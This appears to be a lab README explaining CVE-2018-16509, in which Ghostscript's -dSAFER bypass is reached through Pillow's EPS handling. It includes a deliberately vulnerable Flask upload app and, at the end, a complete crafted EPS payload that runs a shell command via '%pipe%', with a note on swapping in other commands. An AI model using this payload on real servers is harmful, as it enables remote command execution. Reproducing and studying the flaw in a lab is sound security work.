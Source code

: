 # Python PIL/Pillow Remote Shell Command Execution via Ghostscript CVE-2018-16509

Ghostscript is a suite of software based on an interpreter for Adobe Systems PostScript and Portable Document Format (PDF) page description languages. Somehow, Ghostscript is exist in the production server (e.g. `/usr/local/bin/gs` or `/usr/bin/gs`) even when no application use it directly because Ghostscript is installed as dependency of another software (e.g. ImageMagick). Bunch of vulnerabilities were found in Ghostscript; one of them is CVE-2018-16509 (discovered by Tavis Ormandy from Google Project Zero), a vulnerability that allows exploitation of -dSAFER bypass in Ghostscript before v9.24 to execute arbitrary commands by handling a failed restore (grestore) in PostScript to disable LockSafetyParams and avoid invalidaccess. This vulnerability is reachable via libraries such as ImageMagick or image library in the programming language with Ghotscript wrapper (PIL/Pillow in this example).

## Exploit

You can upload [rce.jpg](rce.jpg) (a specially-crafted EPS image, not a real JPG) to execute `touch /tmp/got_rce` in the server. For proof, you can execute `docker exec [CONTAINER_ID] ls -alt /tmp`. To get `CONTAINER_ID`, you can check with `docker container ls`. To change the shell execution to other commands, you can change `touch /tmp/got_rce` directly in the `rce.jpg`.

## Analysis

You can refer to the explanation of vulnerability by Tavis Ormandy in [oss-security](https://seclists.org/oss-sec/2018/q3/142).

You can check the source code Ghostscript wrapper of PIL/Pillow in [EPSImagePlugin.py](https://github.com/python-pillow/Pillow/blob/0adeb82e9886cdedb3917e8ddfaf46f69556a991/src/PIL/EpsImagePlugin.py).

This is the vulnerable code of `app.py`:

```python
@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        file = request.files.get('image', None)

        if not file:
            flash('No image found')
            return redirect(request.url)

        filename = file.filename
        ext = path.splitext(filename)[1]

        if (ext not in ['.jpg', '.jpeg', '.png', '.gif', '.bmp']):
            flash('Invalid extension')
            return redirect(request.url)

        tmp = tempfile.mktemp("test")
        img_path = "{}.{}".format(tmp, ext)

        file.save(img_path)

        img = Image.open(img_path)
        w, h = img.size
        ratio = 256.0 / max(w, h)

        resized_img = img.resize((int(w * ratio), int(h * ratio)))
        resized_img.save(img_path)
```

Content of uploaded file will be loaded by `img = Image.open(img_path)`. PIL will automatically detect if the image is an EPS image (example: add `%!PS-Adobe-3.0 EPSF-3.0` at the beginning of file) and will call _open() in `EpsImageFile` class in `EPSImagePlugin.py`. To avoid `raise IOError("cannot determine EPS bounding box")`, a bounding box need to be added in the file (example: `%%BoundingBox: -0 -0 100 100`).

The body of EPS image will be processed by Ghostscript binary with `subprocess` as we can see in `EPSImagePlugin.py` in `Ghostscript` function.

```python
    # Build Ghostscript command
    command = ["gs",
               "-q",                         # quiet mode
               "-g%dx%d" % size,             # set output geometry (pixels)
               "-r%fx%f" % res,              # set input DPI (dots per inch)
               "-dBATCH",                    # exit after processing
               "-dNOPAUSE",                  # don't pause between pages
               "-dSAFER",                    # safe mode
               "-sDEVICE=ppmraw",            # ppm driver
               "-sOutputFile=%s" % outfile,  # output file
               "-c", "%d %d translate" % (-bbox[0], -bbox[1]),
                                             # adjust for image origin
               "-f", infile,                 # input file
               "-c", "showpage",             # showpage (see: https://bugs.ghostscript.com/show_bug.cgi?id=698272)
               ]


    ....

    try:
        with open(os.devnull, 'w+b') as devnull:
            startupinfo = None
            if sys.platform.startswith('win'):
                startupinfo = subprocess.STARTUPINFO()
                startupinfo.dwFlags |= subprocess.STARTF_USESHOWWINDOW
            subprocess.check_call(command, stdin=devnull, stdout=devnull,
                                  startupinfo=startupinfo)
```

The code above is called when `load` is called in [Image.py](https://github.com/python-pillow/Pillow/blob/0adeb82e9886cdedb3917e8ddfaf46f69556a991/src/PIL/Image.py) so only open the image will not trigger the vulnerability. Function like `resize`, `crop`, `rotate`, and `save` will call `load` and trigger the vulnerability.

Combined with POC from Tavis Ormandy, we can craft `rce.jpg` for remote shell command execution.

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /tmp/got_rce) currentdevice putdeviceprops
```
